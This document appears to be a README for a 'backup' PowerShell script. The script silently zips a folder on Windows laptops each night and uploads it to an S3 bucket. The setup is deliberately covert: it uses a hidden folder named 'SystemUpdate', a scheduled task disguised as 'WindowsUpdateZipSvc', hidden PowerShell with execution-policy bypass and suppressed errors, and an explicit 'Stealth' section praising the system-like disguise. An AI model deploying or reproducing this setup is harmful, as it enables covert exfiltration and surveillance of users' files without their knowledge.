 # Maksiti Backups — README

## 1) AWS (once)
- Create IAM user: **`backup-user`** (programmatic access only).
- Attach policy granting access **only** to bucket **`arbrim-backups-test`** (ListBucket, Put/Get/DeleteObject).
- Save the access key CSV.

> (Optional) As an admin, add an S3 **Lifecycle rule** to expire `zips/` after 7 days (CLI step below).

---

## 2) Windows setup (per laptop)

### 2.1 Install & configure AWS CLI
Download and install:  
`https://awscli.amazonaws.com/AWSCLIV2.msi`

Verify:
```powershell
aws --version
```

Configure:
```powershell
aws configure
```
Use:
```
Access Key ID: <from backup-user CSV>
Secret Access Key: <from backup-user CSV>
Default region: eu-central-1
Output format: json
```

### 2.2 Create hidden script folder (user-writable; no admin needed)
```powershell
New-Item -ItemType Directory -Path "C:\Users\<USER>\AppData\Local\SystemUpdate" -Force | Out-Null
attrib +h "C:\Users\<USER>\AppData\Local\SystemUpdate"
```

### 2.3 Pick backup source and S3 layout
```
Local folder to back up (edit per machine):
C:\Users\<USER>\Desktop\maksitest

S3 bucket:
arbrim-backups-test

Zips stored under (auto by script):
s3://arbrim-backups-test/zips/<COMPUTER>/
```

### 2.4 Save the PowerShell script
Path:
```
C:\Users\<USER>\AppData\Local\SystemUpdate\WinZipBackup.ps1
```

Content:
```powershell
# --- EDIT THESE TWO PER MACHINE ---
$SrcPath = "C:\Users\<USER>\Desktop\maksitest"   # Folder to back up
$Bucket  = "arbrim-backups-test"                     # S3 bucket
# ----------------------------------

$Computer  = $env:COMPUTERNAME
$UserName  = $env:USERNAME
$Stamp     = (Get-Date).ToString("yyyy-MM-dd_HH-mm")
$Prefix    = "zips/$Computer"
$ZipName   = "${Computer}-${UserName}_${Stamp}.zip"
$TempZip   = Join-Path $env:TEMP $ZipName

if (-not (Test-Path $SrcPath)) { exit 0 }

try {
    if (Test-Path $TempZip) { Remove-Item $TempZip -Force -ErrorAction SilentlyContinue }
    Compress-Archive -Path $SrcPath -DestinationPath $TempZip -CompressionLevel Optimal -Force
} catch { exit 0 }

$S3Key = "$Prefix/$ZipName"
$null = aws s3 cp "$TempZip" "s3://$Bucket/$S3Key" --sse AES256 2>$null
Remove-Item $TempZip -Force -ErrorAction SilentlyContinue

# Optional local retention (skip if using S3 lifecycle):
try {
    $cutoff = (Get-Date).AddDays(-7)
    $list = aws s3api list-objects-v2 --bucket $Bucket --prefix $Prefix/ | ConvertFrom-Json
    foreach ($obj in ($list.Contents | Where-Object { $_.LastModified -lt $cutoff })) {
        $null = aws s3api delete-object --bucket $Bucket --key $obj.Key 2>$null
    }
} catch { }
```

### 2.5 Schedule it (silent nightly run)
```powershell
schtasks /Create /TN "WindowsUpdateZipSvc" /TR "powershell.exe -NoLogo -NonInteractive -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\Users\arbri\AppData\Local\SystemUpdate\WinZipBackup.ps1" /SC DAILY /ST 03:00 /RL HIGHEST /F
```

Then in Task Scheduler → Properties → **Run whether user is logged on or not** (enter your Windows password once).  
To test now: right-click the task → **Run**.

---

## 3) S3 lifecycle (keep 7 days) — optional but recommended

Save JSON:
```
C:\Users\<USER>\AppData\Local\SystemUpdate\lifecycle.json
```
```json
{
  "Rules": [
    {
      "ID": "ExpireZipBackupsAfter7Days",
      "Status": "Enabled",
      "Filter": { "Prefix": "zips/" },
      "Expiration": { "Days": 7 }
    }
  ]
}
```

Apply (run as an admin/owner who has lifecycle permissions):
```powershell
aws s3api put-bucket-lifecycle-configuration `
  --bucket arbrim-backups-test `
  --lifecycle-configuration file://C:\Users\<USER>\AppData\Local\SystemUpdate\lifecycle.json `
  --region eu-central-1
```

Verify:
```powershell
aws s3api get-bucket-lifecycle-configuration --bucket arbrim-backups-test --region eu-central-1
```

---

## 4) Restore & notes

**Restore:** download the desired zip from  
`s3://arbrim-backups-test/zips/<COMPUTER>/<COMPUTER>-<USER>_YYYY-MM-DD_HH-mm.zip`  
and unzip.

**Scale to more laptops:** copy `WinZipBackup.ps1`, edit only `$SrcPath`, run the same `schtasks` command (path includes the user’s profile). Lifecycle rule applies to all machines automatically.

**Stealth:** script runs with hidden PowerShell; folder is hidden; task name looks system-ish.

Verify task is configured daily
```
schtasks /Query /TN "WindowsUpdateZipSvc" /V /FO LIST
```
